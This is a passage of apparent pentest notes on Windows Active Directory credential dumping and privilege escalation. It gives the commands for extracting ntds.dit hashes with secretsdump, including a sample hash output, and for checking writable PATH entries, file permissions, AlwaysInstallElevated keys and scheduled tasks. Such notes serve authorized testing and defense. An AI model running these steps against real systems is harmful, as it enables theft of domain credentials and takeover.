 Note that you could also use the Windows built-in tool vssadmin (as in this [howto](http://www.pentestgeek.com/2013/01/10/psexec_command-not-your-daddys-psexec/)), however vssadmin will not get you a “consistent” snapshot whereas ntdsutil is the correct tool to properly backup the ntds database. That said, ntdsutil on Windows 2003 can’t create snapshots so vssadmin should be used instead in this particular case.

If ntds.dit appears to be corrupted, use the built-in command-line tool [esentutl](http://technet.microsoft.com/en-us/library/hh875546.aspx) to try to repair it:
```
C:\> esentutl /p /o ntds.dit
```
##### Kali VM
Now it’s time to dump password hashes using [secretsdump](http://code.google.com/p/impacket/source/browse/trunk/examples/secretsdump.py):
```
    $ secretsdump.py -system system.save -ntds ntds.dit LOCAL
    Impacket v0.9.11-dev - Copyright 2002-2013 Core Security Technologies
    
    [*] Target system bootKey: 0x24f65609994cdbec01b8b0b61cf6a332
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Searching for pekList, be patient
    [*] Pek found and decrypted: 0xca47b3a8b3477cec0a774bed669c3d9f
    [*] Reading and decrypting hashes from ntds.dit
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:a881324bad161293dedc71817988d944:::
    ...
```
You can also dump the password history with the -history option (since [r961](http://code.google.com/p/impacket/source/detail?r=961)).
####  AD database (AD Replication)
[Dumping Windows Credentials - Pure Security](https://pure.security/dumping-windows-credentials/)
# Misconfigurations 
## Global path
If any part of the SYSTEM %PATH% variable is writeable by Authenticated Users, privesc exists

Many applications don't use full path

If system32 is not first entry in path this is bad
```
reg query HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session Manager\\Environment
```
## Find Readable/Writable Files and Directories
```
accesschk.exe -uws "Everyone" "C:\\Program Files"

Get-ChildItem "C:\\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\\sAllow\\s\\sModify"}
```

## Binaries That AutoElevate
\*\*If these are set we could run an msi to elevate privleges\*\*
```
reg query HKEY\_CURRENT\_USER\\Software\\Policies\\Microsoft\\Windows\\Installer

reg query HKEY\_LOCAL\_MACHINE\\Software\\Policies\\Microsoft\\Windows\\Installer
```
## Scheduled Tasks  
### Basic info
```
schtasks /query /fo LIST
```

